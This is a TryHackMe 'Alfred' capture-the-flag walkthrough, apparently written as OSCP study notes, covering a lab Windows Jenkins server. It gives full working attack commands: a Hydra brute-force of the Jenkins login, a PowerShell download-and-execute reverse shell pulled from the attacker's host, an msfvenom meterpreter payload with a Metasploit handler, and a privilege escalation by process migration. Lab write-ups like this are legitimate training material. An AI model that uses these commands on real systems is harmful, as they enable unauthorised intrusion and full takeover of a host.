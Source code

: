 # Alfred TryHackMe Writeup #
## Preface ##
Since beginning to prepare for the OSCP I have periodically bounced back and forth on my study habits which is not condusive to a smooth study experience or successful exam attempt. As I begin my refresher before beginning much more serious work I have been working through rooms I exploited before, with Alfred being the first room I did that had me scratching my head the first time. I hope this writeup helps you in the event you get stuck as I did.

## Enumeration Phase ##

Since TryHackMe (THM) provide us with the knowledge of this being a Windows device running Jenkins, this gives us an advantage when it comes to enumeration. This knowledge narrows down the first wave of enumeration we will have to perform with the first being an nmap scan to determine the ports and services running.

This can be achieved by running the command ```sudo nmap 10.10.69.30 -Pn -p 1-9999```  which gives us three live ports which are:
| Port | Protocol | Service |
|-----:|----------|---------|
|    80|       TCP|     HTTP|
|  3389|       TCP| MS-WBT-Server|
|  8080|       TCP|   HTTP-PROXY|
 
![NMAP Enumeration](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028174616.png)

Now that we have this information lets visit the open http ports to see what is available to us starting with 10.10.69.30:80 which just gives us a page with an image of Bruce Wayne.

![Port 80 Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028175000.png) 

We will now visit 10.10.69.30:8080 where we are presented with a Jenkins login page. 
![Port 8080 Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028175054.png) 

## Initial Access ##

We do not have the password so we can do some searching for Jenkins default passwords where we can see 12345 is a common one, but upon trying it we are unsuccessful, but the Burp Proxy gives us some useful information. 
![Burp Proxy](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028181138.png)

Now that we have a login value we need to craft  a hydra payload to run against the endpoint to bruteforce this login. When running hydra from your wordlist directory the command should look something like this:  `hydra -L fasttrack.txt -P fasttrack.txt 10.10.69.30 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"`  Which will take a little while to run against the endpoint so be patient. 
![Hydra Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028183503.png) 

By utilizing Hydra we see a successful login with the username admin and the password admin. 
![Hydra Success](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190601.png)

Now that we have this login information we need to log in and be greeted with the Jenkins GUI where we see an existing project as well as the admin username showing the account we logged in under. 
![Jenkins Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190845.png)

We can see that the version is Jenkins 2.190.1 so we need to reseach the functionality of Jenkins to begin getting an idea of what it does which allows us to find ways to exploit it. This should have pointed you toward Jenkins being an automation platform that facilitates Continuous Integration (CI) and in theory will have jobs that are either manually triggered or automatically triggered to execute some function. Once you know this you can then move on to using the tool that THM recommends which is Nishang, specifically the Invoke-PowerShellTcp.ps1 script inside the Nishang package.

Jenkins allows us to execute Windows batch commands on the host running the service which will allow us to pull down the PowerShell script from our machine into the Windows device where it will be executed. Upon execution our listener should pick up giving us a reverse shell. 

Once you load into the project and go into the configuration you will then find a section named build that will allow you to input a command. This will be useful to achieve initial access once we spin up a simplehttp server using the python command `python -m http.server 8000`  This will create a reachable network location for our exploit to be pulled from. We will also want to initiate a listener on port 4444 using the command `rlwrap nc -lvnp 4444` Now that we have a listener running we can push the command to the device through Jenkins by building a project containing `powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.4.233:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.4.233 -Port 4444` 
![Reverse Shell Execution](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028213828.png)

You will now have a reverse shell into the device where you can use `whoami` to verify your role and begin looking for the first flag.
![Reverse Shell Establoshed](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028213936.png) 
![Flag Achieved](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028214328.png) 

## Privilege Escalation ##

Now that we have that initial shell we need to escalate our privileges to look for even more flags that may be under administrator accounts. This exercise has us using Metasploit and meterpreter in particular.

We will first need to create our payload using msfvenom which will be generated via the command `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.4.233 LPORT=4445 -f exe -o revshell.exe` 
![MSFVenom Payload Creation](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028221202.png)

Before we build the project we will first need to get Metasploit ready by starting the postgresql service via `service postgresql start` and then running the `msfconsole` command.

Once Metasploit is launch we first need to perform a few steps before we push the exploit and begin attempting to elevate our privileges.
1. `use exploit/multi/handler`
2. `set PAYLOAD windows/meterpreter/reverse_tcp`
3. `set LHOST 10.6.4.233`
4. `set LPORT 4445`
5. `run`
This has us listening for the exploit to be sent and allowing the payload to execute.
![MSFConsole Setup](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028221944.png)

Now that we have this ready we will build our exploit command in Jenkins which will be `powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.6.4.233:8000/revshell.exe','revshell.exe')"` 
![Jenkins Payload Retrieval](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028222440.png)

Once we have pushed that command from Jenkins we will want to use the `Start-Process "revshell.exe"` command from the reverse shell in the project/workspace folder to initiate the exploit. 
![Exploit Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028223121.png)

This should now allow the Meterpreter shell to begin connecting, opening the pathway to privilege escalation. 
![Meterpreter Launch](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028223212.png)

With the Meterpreter shell running it's pretty simple to elevate privileges by using the `getsystem` command which will utilize an impersonation token, preventing us from being able to explore for the root.txt flag. To truly escalate our privileges to root then we will need to look for any service that would be running under the `NT\AUTHORITY` token since this is a Windows device. A usual suspect for this would be `services.exe` so we will use `ps` to list all processes and look for the PID of `services.exe`. 
![Process Listing](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224117.png)

Now that we have listed all of the running processes we can migrate to the `services.exe` process which is running as `NT\AUTHORITY` and search for the flag which can be done a few ways but the easiest way will be to utilize `search -f root.txt` to determine the location of the flag then using the `shell` command to launch the Windows terminal where you can use `cd C:\Windows\System32\config` to navigate to the directory housing the flag and finally use `more root.txt` to read the flag completing the exercise.
![Process Migration](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224629.png) 
![Root Flag](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224954.png) 
